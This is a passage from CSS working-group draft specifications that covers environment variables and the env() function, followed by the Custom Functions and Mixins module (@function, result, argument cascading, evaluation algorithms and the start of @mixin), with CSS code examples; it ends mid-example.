- Many variables aren’t meant to change over the course of a page; they set up themes, or are helpers for particular numerical values. Using environment variables instead of custom properties to define these communicates the proper intent, which is good both for the author of the document (particularly when multiple people are collaborating on a single document), and for the user agent, as it can store these variables in a more optimal way.
- Because environment variables don’t depend on the value of anything drawn from a particular element, they can be used in places where there is no obvious element to draw from, such as in `@media` rules, where the `var()` function would not be valid.
- Information from the user agent itself, such as the margin of the viewport to avoid laying out in by default (for example, to avoid overlapping a "notch" in the screen), can be retrieved via `env()`, whereas the element-specific nature of `var()` was not an appropriate place to pipe that information in.

Most environment variables will have a single value at a time. Some, however, are "indexed", representing multiple values at once, such as the sizes and positions of several distinct panes of content in the `viewport-segment-*` variables. To refer to these indexed variables, one or more integers must be provided alongside the variable name, like `viewport-segment-width 1 0`, to select a single value from the list or grid of possibilities, similar to selecting one element from a list in a traditional programming language with a syntax like `values[0]`.

### 2. Environment Variables {#css-env-1:environment}

A CSS **environment variable** is a name associated with a `<declaration-value>` (a sequence of zero more CSS tokens, with almost no restrictions on what tokens can exist), similar to a custom property. Environment variables can be defined by the user agent, or by the author.

The following UA-defined environment variables are officially defined and must be supported. Additional UA-defined environment variables *must not* be supported unless/until they are added to this list.

#### 2.1. Safe area inset variables {#css-env-1:safe-area-insets}

| Name | Value | Number of dimensions |
| --- | --- | --- |
| **safe-area-inset-top** | `<length>` | 0 (scalar) |
| **safe-area-inset-right** | `<length>` | 0 (scalar) |
| **safe-area-inset-bottom** | `<length>` | 0 (scalar) |
| **safe-area-inset-left** | `<length>` | 0 (scalar) |

The safe area insets are four environment variables that define a rectangle by its top, right, bottom, and left insets from the edge of the viewport. For rectangular displays, these must all be zero, but for nonrectangular displays they must form a rectangle, chosen by the user agent, such that all content inside the rectangle is visible, and such that reducing any of the insets would cause some content inside of the rectangle to be invisible due to the nonrectangular nature of the display. This allows authors to limit the layout of essential content to the space inside of the safe area rectangle.

#### 2.2. Safe area maximum inset variables {#css-env-1:safe-area-max-insets}

| Name | Value | Number of dimensions |
| --- | --- | --- |
| **safe-area-max-inset-top** | `<length>` | 0 (scalar) |
| **safe-area-max-inset-right** | `<length>` | 0 (scalar) |
| **safe-area-max-inset-bottom** | `<length>` | 0 (scalar) |
| **safe-area-max-inset-left** | `<length>` | 0 (scalar) |

The safe area maximum insets are four environment variables that are tied to the [safe area inset variables](#css-env-1:safe-area-insets). Unlike the safe area inset variables which are dynamic values, the safe area maximum insets are static values that represent the maximum value of their dynamic counterpart when dynamic UA interfaces are retracted, making the layout viewport size the large viewport size.

#### 2.3. Viewport segment variables {#css-env-1:viewport-segments}

| Name | Value | Number of dimensions |
| --- | --- | --- |
| **viewport-segment-width** | `<length>` | 2 |
| **viewport-segment-height** | `<length>` | 2 |
| **viewport-segment-top** | `<length>` | 2 |
| **viewport-segment-left** | `<length>` | 2 |
| **viewport-segment-bottom** | `<length>` | 2 |
| **viewport-segment-right** | `<length>` | 2 |

The viewport segments are environment variables that define the position and dimensions of a logically separate region of the viewport. Viewport segments are created when the viewport is split by one or more hardware features (such as a fold or a hinge between separate displays) that act as a divider; segments are the regions of the viewport that can be treated as logically distinct by the author.

The viewport segment environment variables have two dimensions, which represent the x and y position, respectively, in the two dimensional grid created by the hardware features separating the segments. Segments along the left edge have x position `0`, those in the next column to the right have x position `1`, etc. Similarly, segments along the top edge have y position `0`, etc.

> **Note:** In certain hardware configurations, the separator itself may occupy logical space within the viewport. The dimensions of the separator can be computed by calculating the area between the position of the viewport segments.

> **Example:** When the viewport is split into two side-by-side segments, the viewport segment on the left would have indices (0, 0). Its width would be represented as `env(viewport-segment-width 0 0, 300px)`. The viewport segment on the right would have indices (1, 0). Similarly, for a viewport split into two vertical segments, the viewport segment on the top would have indices (0, 0) and the one on the bottom (0, 1).

These variables are only defined when there are at least two such segments. Viewport units should be used instead when there is no hardware feature splitting the viewport, otherwise content will not display as intended when viewed on a device with multiple segments.

#### 2.4. Preferred Text Zoom {#css-env-1:text-zoom}

| Name | Value | Number of dimensions |
| --- | --- | --- |
| **preferred-text-scale** | `<number>` | 0 (scalar) |

The `preferred-text-scale` environment variable represents the user’s preferred text scale factor; aka, the adjustment they make to the "default" font size of the OS and/or user agent. (On devices where `text-size-adjust` has an effect, this is the scale factor applied by `text-size-adjust: auto`.)

For example, if `text-size-adjust:auto` would cause text sizes to double, then `env(preferred-text-scale)` would resolve to `2`.

> **Example:** This environment variable requires care to be used correctly. By default, text scaling is applied automatically; using `env(preferred-text-scale)` would result in the scale being *double*-applied, making text or UI elements too large.
>
> Typically, authors should either:
>
> - set `text-size-adjust: calc(100% * env(preferred-text-scale));`, to ensure that all the text in the page is automatically scaled to the user’s preference, and when necessary scale non-text sizes by the scale factor as well.
> - or set `text-size-adjust:none`, and then consistently use this environment variable to scale relevant text and UI to the user’s preference.

#### 2.5. Link Parameters {#css-env-1:link-params}

Some environment variables are set by CSS link parameters. They only exist if the corresponding CSS link parameter is set, per the [CSS-LINK-PARAMS-1] specification.

| Name | Value | Number of dimensions |
| --- | --- | --- |
| **color** | `<color>` | 0 (scalar) |
| **accent-color** | `<color>` | 0 (scalar) |

#### 2.6. Author-Defined Variables {#css-env-1:custom}

In addition to the UA-defined environment variables defined by this specification, authors can define **custom environment variables**. The name of a custom environment variable must conform to the `<custom-property-name>` grammar.

Currently, the only way to create a custom environment variable is via CSS link parameters on a URL or referencing document. See [CSS-LINK-PARAMS-1] for details.

> **Issue:** Should define an API on `Document` to expose the set of defined custom environment variables.

> **Issue:** Define how authors can add environment variables directly, preferably both via JS and via CSS.

### 3. Using Environment Variables: the `env()` notation {#css-env-1:env-function}

In order to substitute the value of an environment variable into a CSS context, use the `env()` function:

```css
env() = env( <custom-ident> <integer [0,∞]>*, <declaration-value>? )
```

The `env()` function’s argument grammar is:

```css
<env-args> = env( <declaration-value>, <declaration-value>? )
```

Like `var()`, a bare comma can be used with nothing following it, indicating that the second `<declaration-value>` was passed, just as an empty sequence.

The `env()` function can be used in place of any part of a value in any property on any element, or any part of a value in any descriptor on any at-rule, and in several other places where CSS values are allowed.

> **Issue:** Define the full set of places `env()` can be used.
>
> - Should be able to replace any subset of MQ syntax, for example.
> - Should be able to replace selectors, maybe?
> - Should it work on a rule level, so you can insert arbitrary stuff into a rule, like reusing a block of declarations?

The first argument to `env()` provides the name of an environment variable to be substituted. Following the first argument are integers that represent indices into the dimensions of the environment variable, if the provided name represents an array-like environment variable. The argument after the comma, if provided, is a fallback value, which is used as the substitution value when the referenced environment variable does not exist.

> **Note:** The syntax of the fallback, like that of custom properties, allows commas. For example, `env(foo, red, blue)` defines a fallback of `red, blue`; that is, anything between the first comma and the end of the function is considered a fallback value.

If a property or descriptor contains one or more `env()` functions, and those functions are syntactically valid, the entire declaration’s grammar must be assumed to be valid at parse time. It is only syntax-checked at computed-time, after `env()` functions have been substituted.

To **substitute an env()** in a property or descriptor:

1. If the name provided by the first argument of the `env()` function is a recognized environment variable name, the number of supplied integers matches the number of dimensions of the environment variable referenced by that name, and values of the indices correspond to a known sub-value, replace the `env()` function by the value of the named environment variable.
2. Otherwise, if the `env()` function has a fallback value as its second argument, replace the `env()` function by the fallback value. If there are any `env()` references in the fallback, substitute them as well.
3. Otherwise, the property or descriptor containing the `env()` function is invalid at computed-value time.

> **Issue:** Define when substitution happens. It has to be before `var()` substitution. Alternately, should `env()` substitution happen at parse time, so unknown variable names cause it to fail syntax checking? There’s no particular reason to have it happen at computed-value time, like `var()` does—​that was to ensure that custom properties could inherit their value down before they were picked up by a `var()`.

> **Issue:** When I figure out where else `env()` can go, define how/when it substitutes.

#### 3.1. Environment Variables in Shorthand Properties {#css-env-1:env-in-shorthands}

The `env()` function causes the same difficulties with shorthand properties as the `var()` function does. When an `env()` is used in a shorthand property, then, it has the same effects as defined in [CSS Variables 1 § 3.2 Variables in Shorthand Properties](https://www.w3.org/TR/css-variables-1/#variables-in-shorthands).

---

## CSS Custom Functions and Mixins Module Level 1 {#css-mixins-1}

- **Shortname:** `css-mixins-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-mixins/](https://drafts.csswg.org/css-mixins/)
- **Published TR:** [https://www.w3.org/TR/css-mixins-1/](https://www.w3.org/TR/css-mixins-1/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-11-04

### 1. Introduction {#css-mixins-1:intro}

*This section is not normative.*

> **Note:** At this time, this specification only defines custom functions, which operate at the level of CSS values. It is expected that it will define "mixins" later, which are functions that operate at the style rule level.

Custom properties give authors a lot of power to define useful, sometimes complex values in one place, and then re-use them across their stylesheet. They can vary across the document, or based on Media Queries or other conditionals, making them very flexible and responsive.

However, their values are *fixed* at the point they’re defined, unable to be changed except by fully overriding their previous definition: a `--shadow: 2px 2px var(--shadow-color)` declaration takes its `--shadow-color` value from the element it’s declared on, and later changes to `--shadow-color` on descendant elements don’t alter the value of `--shadow` for them; they continue to use the shadow color defined where `--shadow` was defined. This is a common source of confusion for authors making heavy use of composite variables like this.

Custom functions allow authors the same power as custom properties, but *parameterized*: they have the same flexibility and conditionality as a custom property definition, but take values from other custom properties (or explicitly as arguments) *at the point of use*. For example, instead of a `--shadow` custom property, a `--shadow()` custom function could be defined instead, like:

```
@function --shadow(--shadow-color <color> : inherit) {
  /* If --shadow-color argument isn't passed,
     or doesn't successfully parse as a <color>,
     try to use the --shadow-color *property*
     from the element instead */

  /* var(--shadow-color) refers to the --shadow-color parameter,
     rather than a custom property,
     but can still use a fallback value as normal */
  result: 2px 2px var(--shadow-color, black);
}

.foo {
  --shadow-color: blue;
  box-shadow: --shadow(); /* produces a blue shadow */
  /* or just */
  box-shadow: --shadow(blue);
}
```

### 2. Defining Custom Functions {#css-mixins-1:defining-custom-functions}

A custom function can be thought of as an advanced custom property, which instead of being substituted by a single fixed value, computes its substitution value based on function parameters and the value of custom properties at the point it’s invoked. Rather than the `var()` syntax that custom properties use for substitution, custom functions are invoked by `<dashed-function>` syntax, allowing additional values to be passed as arguments.

> **Example:** A simple custom function to negate a value can be defined as follows:
>
> ```css
> @function --negative(--value) {
>   result: calc(-1 * var(--value));
> }
> ```
>
> Then, that function can be referenced with `--negative()` in some declaration:
>
> ```css
> html {
>   --gap: 1em;
>   padding: --negative(var(--gap));
>   /* or by passing the value explicitly, like: */
>   padding: --negative(1em);
> }
> ```

`<dashed-function>`s are arbitrary substitution functions, like `var()`. Their presence in a property’s value causes it to be assumed valid at parse time, and only evaluated and parsed at computed-value time, after arbitrary substitution has occurred.

#### 2.1. The **@function** Rule {#css-mixins-1:function-rule}

The `@function` rule defines a **custom function**, and consists of a name, a list of parameters, a **function body**, and optionally a **return type** described by a syntax definition.

Each **function parameter** consists of a name (`<custom-property-name>`); optionally a **parameter type**, described by a syntax definition; and optionally a **default value**.

```css
<@function> = @function <function-token> <function-parameter>#? ,? )
  [ returns <css-type> ]?
{
  <declaration-rule-list>
}

<function-parameter> = <custom-property-name> <css-type>? [ : <default-value> ]?
<css-type> = <syntax-component> | <type()>
<default-value> = <declaration-value>?
<type()> = type( <syntax> )
```

If a default value and a parameter type are both provided, then the default value must parse successfully according to that parameter type’s syntax. Otherwise, the `@function` rule is invalid.

Whether a default value is provided or omitted is determined by the presence or absence of the colon; an empty default value (like `@function --x(--arg:){}`) is perfectly valid.

> **Note:** A final trailing comma is allowed after the arguments, to make formatting arguments across multiple lines easier.

##### 2.1.1.  The Function Prelude {#css-mixins-1:function-prelude}

The `<function-token>` production must start with two dashes (U+002D HYPHEN-MINUS), similar to `<dashed-ident>`, or else the definition is invalid.

The name of the resulting custom function is given by the name of the `<function-token>`. The optional function parameters are given by the `<function-parameter>` values (defaulting to an empty set), and the optional return type is given by the `<css-type>` following the `returns` keyword (defaulting to `type(*)`).

> **Example:** If the `<css-type>` of a function parameter or return type can be described by a single `<syntax-component>`, then the `type()` function can be omitted:
>
> ```css
> @function --foo(--a <length>) { /* ... */ }
> @function --foo(--a <color>) { /* ... */ }
> @function --foo(--a <length>+) { /* ... */ }
> ```
>
> However, any `<syntax>` that requires a `<syntax-combinator>` needs to be wrapped in the `type()` function:
>
> ```css
> @function --foo(--a type(<number> | <percentage>)) { /* ... */ }
> ```

The name of a `@function` rule is a tree-scoped name. If more than one `@function` exists for a given name, then the rule in the stronger cascade layer wins, and rules defined later win within the same layer.

If the function parameters contain the same `<custom-property-name>` more than once, then the `@function` rule is invalid.

##### 2.1.2.  The Function Body {#css-mixins-1:function-body}

The body of a `@function` rule accepts conditional group rules, such as `@media`. Additionally, it accepts the following descriptors:

- The `result` descriptor, which determines the result of evaluating the function. If no `result` descriptor exists, the function is valid, but always returns the guaranteed-invalid value.
- Custom properties, providing **local variables**.

Unknown descriptors are invalid and ignored, but do not make the `@function` rule itself invalid.

#### 2.2. The `result` Descriptor {#css-mixins-1:the-result-descriptor}

| Field | Value |
| --- | --- |
| Name: | **result** |
| For: | `@function` |
| Value: | `<declaration-value>`? |
| Initial: | n/a (see prose) |

The `result` descriptor defines the result of evaluating the custom function defined by its `@function` rule. Using `var()` functions, it can reference function parameters, local variables, as well as other custom functions via `<dashed-function>`s.

If the function has a return type, `result` actually uses that as its grammar (as if it were a registered custom property with that as its syntax), rather than the generic value in the table above.

#### 2.3. Arguments & Local Variables {#css-mixins-1:args}

*This section is non-normative.*

Within a custom function’s function body, the `var()` function can access local variables (the custom properties defined in the function body), function parameters (the values passed to the function, or set to default values), and custom properties defined at the *call site* (an element, or another custom function).

In that list, earlier things "win" over later things of the same name—​if you have a local variable named `--foo`, `var(--foo)` will be substituted by that local variable, not by an argument or a custom property defined outside. The other values can still be *accessed*, however: setting the `--foo` local variable to `initial` will resolve it to the `--foo` parameter, while `inherit` will resolve it to the `--foo` custom property from the call site.

> **Example:** A custom function can access local variables and function parameters from functions higher up in the call stack:
>
> ```css
> @function --outer(--outer-arg) {
>   --outer-local: 2;
>   result: --inner();
> }
> @function --inner() returns <number> {
>   result: calc(var(--outer-arg) + var(--outer-local));
> }
> div {
>   z-index: --outer(1); /* 3 */
> }
> ```
>
> Similarly, custom properties are implicitly available:
>
> ```css
> @function --double-z() returns <number> {
>   result: calc(var(--z) * 2);
> }
> div {
>   --z: 3;
>   z-index: --double-z(); /* 6 */
> }
> ```
>
> But function parameters "shadow" custom properties, and local variables "shadow" both:
>
> ```css
> @function --add-a-b-c(--b, --c) {
>   --c: 300;
>   result: calc(var(--a) + var(--b) + var(--c));
>   /* uses the --a from the call site's custom property,
>      the --b from the function parameter,
>      and the --c from the local variable */
> }
> div {
>   --a: 1;
>   --b: 2;
>   --c: 3;
>   z-index: --add-a-b-c(20, 30); /* 321 */
> }
> ```

##### 2.3.1.  Argument/Local Cascading: the `initial` and `inherit` keywords {#css-mixins-1:arg-cascade}

*This section is non-normative. The normative definition of these concepts is in [§ 3.1 Evaluating Custom Functions](#css-mixins-1:evaluating-custom-functions).*

When evaluating a custom function, first the function parameters are evaluated together, as if they were custom properties (registered with the appropriate syntax and initial values) on a hypothetical child element. This means they’ll see the inherited values of normal custom properties, and can reference each other in any (non-cyclic) order; there’s no defined evaluation order of the arguments.

While evaluating the parameters, the `initial` keyword resolves to the guaranteed-invalid value, while `inherit` resolves to the inherited value of the same-named custom property in the calling context (usually the element being styled).

After parameters are resolved, the custom function resolves its body styles in the same way, with all the parameters added as local variables at the top of the function body and set to their resolved value. In this phase, the `initial` keyword resolves to that resolved value, but `inherit` still resolves to the inherited value of the same-named custom property in the calling context.

> **Example:** ```
> @function --args(--one, --two: initial, --three:inherit) {
>   result: none;
> }
> ```
>
> While evaluating the arguments, --one and --two are identical in this example; --one has no default value, which is identical to specifically having the guaranteed-invalid value as an initial value like --two does.
>
> Meanwhile, --three’s default value is the value of `--three` on the calling element.

> **Example:** ```
> @function --refs(
>   --one: calc(var(--two) + var(--three)),
>   --two: 5,
>   --three: calc(var(--two) + 1),
> ) returns <integer> {
>   result: var(--one);
> }
> ```
>
> In this example, both --one and --three refer to --two, pointing both forward and backward in the argument list, because order doesn’t matter, just like properties on an element.
>
> Chained references are also just fine, so long as they’re not cyclic. In this example, `--refs()` called with no arguments will return 11.

> **Example:** ```
> @function --body(
>   --one: 10px,
>   --two: 20px,
>   --three: 30px,
> ) returns <length> {
>   --one: initial
>   --two: initial
>   --three: inherit;
>   --four: inherit;
>   result: calc(var(--one) + var(--two) + var(--three) + var(--four));
> }
>
> .foo {
>   --one: 1px;
>   --two: 2px;
>   --three: 3px;
>   --four: 4px;
>   width: --body(5px);
> }
> ```
>
> This example shows off a few more things in combination.
>
> First, the resolved values of the parameters are 5px (from the passed argument for --one), 20px, and 30px (from the default values for --two and --three).
>
> Then, in the body, --one becomes 5px and --two becomes 20px (the values resolved in the parameter phase), while --three and --four become 3px and 4px (the values of the custom properties on the calling element). The final result is 32px.

### 3. Using Custom Functions {#css-mixins-1:using-custom-functions}

Similar to how the value of a custom property can be substituted into the value of another property with `var()`, the result of a custom function evaluation can be substituted into the value of a property with a `<dashed-function>`.

A **`<dashed-function>`** is a functional notation whose function name starts with two dashes (U+002D HYPHEN-MINUS). Its argument grammar is:

```css
<dashed-function> = --*( [ <declaration-value>? ]#? ,? )
```

> **Note:** That is, a comma-separated list of anything (including an empty value), optionally with a final trailing comma.

The comma-separated values provide the arguments to the function, matched up with the corresponding function parameters. Each `<declaration-value>` has leading/trailing whitespace trimmed from it. If the final argument is empty, it’s dropped.

> **Note:** This is similar to the JS function call (and array literal) syntax where a final trailing comma *does not* pass an argument (or array value), so you can format the function/literal across multiple lines and end every line with a comma. If you do want to pass an empty final argument, put *another* comma after it, like `--func(1, 2,,)` (or `--solo(,)` to pass a single empty argument).

A `<dashed-function>` can only be used where `var()` is allowed.

If a property contains one or more `<dashed-function>`s, the entire property’s grammar must be assumed to be valid at parse time. At computed-value time, every <dashed-function> must be replaced before finally being checked against the property’s grammar.

> **Note:** Within the body of a custom function, `var()` functions might resolve differently than on the element the `<dashed-function>` is used on. See [§ 3.1 Evaluating Custom Functions](#css-mixins-1:evaluating-custom-functions).

A `<dashed-function>` is evaluated in some context: either in a property value on an element (or in a descriptor that is eventually treated like a property on an element, such as in `@keyframes`), or in a descriptor in the function body of another custom function that is being applied to a "hypothetical" element. Either way, this provides a **calling context**, which contains the property or descriptor name containing the <dashed-function>, and the element (or "hypothetical" element) that property/descriptor is being applied to.

As calling contexts are nested by `<dashed-function>` evaluations *inside of* custom functions, a calling context’s **root element** is the real element at the root of the calling context stack.

To **replace a dashed function** *dashed function*, with a list of *arguments*:

1. Let *function* be the result of dereferencing the *dashed function*’s name as a tree-scoped reference. If no such name exists, return the guaranteed-invalid value.
2. For each *arg* in *arguments*, substitute arbitrary substitution functions in *arg*, and replace *arg* with the result.

   > **Note:** This may leave some (or all) arguments as the guaranteed-invalid value, triggering default values (if any).
3. If *dashed function* is being substituted into a property on an element, let *calling context* be a calling context with that element and that property

   Otherwise, it’s being substituted into a descriptor on a "hypothetical element", while evaluating another custom function. Let *calling context* be a calling context with that "hypothetical element" and that descriptor.
4. Evaluate a custom function, using *function*, *arguments*, and *calling context*, and return the equivalent token sequence of the value resulting from the evaluation.

> **Example:** A comma-containing value can be passed as a single argument by wrapping the value in curly braces, `{}`:
>
> ```css
> @function --max-plus-x(--list, --x) {
>   result: calc(max(var(--list)) + var(--x));
> }
> div {
>   width: --max-plus-x({ 1px, 7px, 2px }, 3px); /* 10px */
> }
> ```

> **Example:** In the following, `--foo()` is in a cycle with itself:
>
> ```css
> @function --foo(--x) {
>   result: --foo(10);
> }
> ```
>
> Similarly, `--bar()` is in a cycle with itself, even though the local variable `--x` is never referenced by `result`:
>
> ```css
> @function --bar() {
>   --x: --bar();
>   result: 1;
> }
> ```
>
> However, `--baz()` is not in a cycle with itself here, since we never evaluate the `result` declaration within the `@media` rule:
>
> ```css
> @function --baz(--x) {
>   @media (unknown-feature) {
>     result: --baz(42);
>   }
>   result: 1;
> }
> ```

> **Example:** The function `--baz()` is not in a cycle in the example below: even though `var(--x)` and `var(--y)` appear in the function body, they refer to a function parameter and local variable, respectively. The custom properties `--x` and `--y` both reference `--baz()`, but that’s fine: those custom properties are not referenced within `--baz()`.
>
> ```css
> @function --baz(--x) {
>   --y: 10px;
>   result: calc(var(--x) + var(--y));
> }
>
> div {
>   --x: --baz(1px);
>   --y: --baz(2px);
>   width: var(--x);  /* 11px */
>   height: var(--y); /* 12px */
> }
> ```

#### 3.1. Evaluating Custom Functions {#css-mixins-1:evaluating-custom-functions}

Custom functions are evaluated by, essentially, pretending their function body is a style rule being applied to a hypothetical element, resolving styles as normal, and then returning the value of the `result` descriptor on that hypothetical element. The hypothetical element "inherits" the values of all custom properties as if it were a child of its calling context, with its function parameters overriding "inherited" custom properties of the same name.

To **evaluate a custom function** *custom function*, given a calling context *calling context* and a list of CSS values *arguments*, returning a CSS value:

1. Let *substitution context* be a substitution context containing «"function", *custom function*».

   > **Note:** Due to tree-scoping, the same function name may appear multiple times on the stack while referring to different custom functions. For this reason, the custom function itself is included in the substitution context, not just its name.
2. Guard *substitution context* for the remainder of this algorithm. If *substitution context* is marked as cyclic, return the guaranteed-invalid value.
3. If the number of items in *arguments* is greater than the number of function parameters in *custom function*, return the guaranteed-invalid value.
4. Let *registrations* be an initially empty set of custom property registrations.
5. For each function parameter of *custom function*, create a custom property registration with the parameter’s name, a syntax of the parameter type, an inherit flag of "true", and no initial value. Add the registration to *registrations*.
6. If *custom function* has a return type, create a custom property registration with the name "result" (violating the usual rules for what a registration’s name can be), a syntax of the return type, an inherit flag of "false", and no initial value. Add the registration to *registrations*.
7. Let *argument rule* be an initially empty style rule.
8. For each function parameter of *custom function*:

  1. Let *arg value* be the value of the corresponding argument in *arguments*, or the guaranteed-invalid value if there is no corresponding argument.
  2. Let *default value* be the parameter’s default value.
  3. Add a custom property to *argument rule* with a name of the parameter’s name, and a value of `first-valid(arg value, default value)`.
9. Resolve function styles using *custom function*, *argument rule*, *registrations*, and *calling context*. Let *argument styles* be the result.
10. Let *body rule* be the function body of *custom function*, as a style rule.
11. For each custom property registration of *registrations* except the registration with the name "result", set its initial value to the corresponding value in *argument styles* and prepend a custom property to *body rule* with the property name and value in *argument styles*.
12. Resolve function styles using *custom function*, *body rule*, *registrations*, and *calling context*. Let *body styles* be the result.
13. If *substitution context* is marked as a cyclic substitution context, return the guaranteed-invalid value.

   > **Note:** Nested arbitrary substitution functions may have marked *substitution context* as cyclic at some point after step 2, for example when resolving `result`.
14. Return the value of the `result` property in *body styles*.

To **resolve function styles**, given a custom function *custom function*, a style rule *rule*, a set of custom property registrations *registrations*, and a calling context *calling context*, returning a set of computed styles:

1. Create a "hypothetical element" *el* that acts as a child of *calling context*’s element. *el* is featureless, and only custom properties and the `result` descriptor apply to it.
2. Apply *rule* to *el* to the specified value stage, with the following changes:

  - Only the custom property registrations in *registrations* are visible; all other custom properties are treated as unregistered.
  - The inherited value of *calling context*’s property is the guaranteed-invalid value.
  - On custom properties, the CSS-wide keywords have the following effects:

    **`initial`**

    : Resolves to the initial value of the custom property within *registrations*.

    **`inherit`**

    : Resolves like an `inherit()` function with the custom property name as its one and only argument.

  > **Note:** This ensures that a function parameter defaulted to `inherit` is reinterpreted using the local parameter type.

    **any other CSS-wide keyword**

    : Resolves to the guaranteed-invalid value.

    > **Note:** `initial` references the custom property registration created from the function parameters, letting you "reset" a property to the passed value. `inherit` inherits from the calling context’s element.\

    On `result`, all CSS-wide keywords are left unresolved.

    > **Note:** `result: inherit`, for example, will cause the `<dashed-function>` to *evaluate to* the `inherit` keyword, similar to `var(--unknown, inherit)`.
  - For a given custom property *prop*, during property replacement for that property, the substitution context also includes *custom function*. In other words, the substitution context is «"property", *prop*’s name, *custom function*»

    > **Note:** Due to dynamic scoping, the same property name may appear multiple times on the stack while referring to different custom properties. For this reason, the custom function itself is included in the substitution context, not just its name.
3. Determine the computed value of all custom properties and the `result` "property" on *el*, as defined in [CSS Properties and Values API 1 § 2.4 Computed Value-Time Behavior](https://drafts.css-houdini.org/css-properties-values-api-1/#calculation-of-computed-values), with changes from the previous step, and the following:

  - Aside from references to custom properties (which use the values on *el* as normal) and numbers/percentages (which are left unresolved in custom properties, as normal), all values which would normally refer to the element being styled instead refer to *calling context*’s root element.

    > **Note:** For example, `attr()` in a property, or `@container` queries in the rule.
4. Return *el*’s styles.

   > **Note:** Only custom properties and the `result` descriptor will be used from these styles.

### 4. Execution Model of Custom Functions {#css-mixins-1:execution-model}

Like the rest of CSS, custom functions adhere to a declarative model.

The local variable descriptors and `result` descriptor can appear in any order, and may be provided multiple times. If this happens, then declarations appearing later win over earlier ones.

> **Example:** ```css
> @function --mypi() {
>   result: 3;
>   result: 3.14;
> }
> ```
>
> The value of the `result` descriptor of `--mypi` is `3.14`.

> **Example:** ```css
> @function --circle-area(--r) {
>   result: calc(pi * var(--r2));
>   --r2: var(--r) * var(--r);
> }
> ```
>
> Local variable descriptors may appear before or after they are referenced.

#### 4.1. Conditional Rules {#css-mixins-1:conditional-rules}

A conditional group rule that appears within a `@function` becomes a nested group rule, with the additional restriction that only descriptors allowed within `@function` are allowed within the nested group rule.

Conditional group rules within `@function` are [processed](#css-conditional-3:processing) as normal, acting as if the contents of the rule were present at the conditional group rule’s location when the condition is true, or acting as if nothing exists at that location otherwise.

> **Example:** ```css
> @function --suitable-font-size() {
>   result: 16px;
>   @media (width > 1000px) {
>     result: 20px;
>   }
> }
> ```
>
> The value of the `result` descriptor is `20px` if the media query’s condition is true, and `16px` otherwise.

> **Example:** Note that due to the execution model, "early return" is not possible within a `@function`:
>
> ```css
> @function --suitable-font-size() {
>   @media (width > 1000px) {
>     result: 20px;
>   }
>   result: 16px;
> }
> ```
>
> The value of the `result` descriptor is always `16px` in the above example.

> **Example:** Local variables are also valid within conditional rules:
>
> ```css
> @function --suitable-font-size() {
>   --size: 16px;
>   @media (width > 1000px) {
>     --size: 20px;
>   }
>   result: var(--size);
> }
> ```

### 5.  Defining Mixins {#css-mixins-1:defining-mixins}

A mixin is in many ways similar to a custom function, but rather than extending/upgrading custom properties, mixins extend/upgrade nested style rules, making them reusable and customizable with arguments.

> **Example:** For example, the following code sets up a mixin applying all the properties you need for a "gradient text" effect, including guarding it with supports queries:
>
> ```
> @mixin --gradient-text(
>   --from <color>: mediumvioletred,
>   --to <color>: teal,
>   --angle: to bottom right,
> ) {
>   @private {
>     --gradient: linear-gradient(var(--angle), var(--from), var(--to));
>   }
>   color: var(--from, var(--to));
>
>   @supports (background-clip: text) or (-webkit-background-clip: text) {
>     background: var(--gradient, var(--from));
>     color: transparent;
>     -webkit-background-clip: text;
>     background-clip: text;
>   }
> }
>
> h1 {
>   @apply --gradient-text(pink, powderblue);
> }
> ```
>
> Note that this example also uses a private property `--gradient`, which is accessible inside the mixin’s rule to aid in readability, but won’t pollute the element’s actual styles.
>
> This is roughly equivalent to writing a nested style rule literally into the `h1` styles:
>
> ```
> h1 {
>   --from: pink;
>   --to: powderblue;
>   --angle: to bottom right;
>   color: var(--from, var(--to));
>   --gradient: linear-gradient(var(--angle), var(--from), var(--to));
>
>   @supports (background-clip: text) or (-webkit-background-clip: text) {
>     background: var(--gradient, var(--from));
>     color: transparent;
>     -webkit-background-clip: text;
>     background-clip: text;
>   }
> }
> ```
>
> (except that none of those custom properties actually show up in the element’s styles)

> **Issue:** The entire `@mixin` feature is experimental and under active development, and is much less stable than `@function`. Expect things to change frequently for now.

#### 5.1.  The **@mixin** rule {#css-mixins-1:mixin-rule}

The `@mixin` rule defines a **mixin**, and consists of a name, a list of mixin parameters, and a mixin body. (Identical to `@function`, save that it lacks a return type, and that the parameter list and enclosing parentheses are optional.)

```css
<@mixin> = @mixin [<function-token> <function-parameter>#? ,? ) | <ident-token> ]
{
  <block-contents>
}
```

> **Note:** Like `@function`, a single trailing comma can be put at the end of the argument list.

The mixin body is parsed as if it were a nested declarations rule.

A `@mixin` rule cannot be a nested group rule; it is invalid within the body of a style rule.

##### 5.1.1.  The Mixin Prelude {#css-mixins-1:mixin-prelude}

The `<function-token>` or `<ident-token>` production must start with two dashes (U+002D HYPHEN-MINUS), similar to `<dashed-ident>`, or else the definition is invalid.

The name of the resulting mixin is given by the name of the `<function-token>` or `<ident-token>`. The optional mixin parameters are given by the `<function-parameter>` values (defaulting to an empty set).

If an `<ident-token>` is used, it is equivalent to a `<function-token>` followed by an empty parameter list.

The name of a `@mixin` rule is a tree-scoped name. If more than one `@mixin` exists for a given name, then the rule in the stronger cascade layer wins, and rules defined later win within the same layer.

If the mixin parameters contain the same `<custom-property-name>` more than once, then the `@mixin` rule is invalid.

If a mixin parameter has both a default value and a parameter type then the default value must parse successfully according to that parameter type’s syntax. Otherwise, the `@mixin` rule is invalid.

##### 5.1.2.  The Mixin Body {#css-mixins-1:mixin-body}

The body of a mixin is parsed as a nested declarations rule; it accepts properties, conditional group rules, and nested style rules, just like an ordinary style rule would. In particular, further mixins can be invoked.

`@layer` is not valid within a mixin body. The contents of any `@layer` within a mixin body are dropped when the mixin is applied. This is to leave room to allow `@layer` within a mixin in a future level.

In addition to everything normally valid in a style rule, the mixin body can contain one or more `@contents` rules, allowing a passed-in contents block to be substituted in.

#### 5.2.  Arguments and Local Variables {#css-mixins-1:mixin-args}

A mixin’s parameters define private properties in the mixin body, set to the value passed for the argument. As usual for private properties, these are accessible using `var()`, and shadow any same-named custom properties that might otherwise exist on the element. See [§ 5.5 Evaluating Mixins](#css-mixins-1:evaluating-mixins) for details on this behavior.

> **Example:** For example, the following mixin use:
>
> ```
> @mixin --shadowed-values(--color2: green, --color3: green) {
>   @private { --color3: blue; }
>   background: linear-gradient(var(--color1), var(--color2), var(--color3));
> }
> p {
>   --color1: red;
>   --color2: red;
>   --color3: red;
>   @apply --shadowed-values();
> }
> ```
>
